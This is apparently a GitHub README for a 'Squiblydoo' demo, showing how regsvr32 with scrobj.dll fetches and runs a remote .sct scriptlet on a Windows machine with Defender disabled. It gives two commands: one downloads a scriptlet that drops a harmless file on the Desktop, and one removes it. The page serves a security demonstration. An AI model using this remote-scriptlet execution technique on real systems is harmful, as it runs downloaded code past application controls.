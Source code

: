 # Squiblydoo Demo
This is a quick demo to show how an unprotected Windows system can be affected by RegSvr32.dll.
## Prerequisites:
Windows Defender disabled

## Demo:

**File Download:**

Run this command from the command prompt.

    regsvr32 /u /n /s /i:https://raw.githubusercontent.com/matt-threatlocker/squiblydoodemo/master/badFile.sct scrobj.dll
This will place a badFile.txt file on the users Desktop.  

**File Deletion:**

Run this command from the command prompt.

    regsvr32 /u /n /s /i:https://raw.githubusercontent.com/matt-threatlocker/squiblydoodemo/master/badFileRemove.sct scrobj.dll
This will remove the file created by the previous command.  
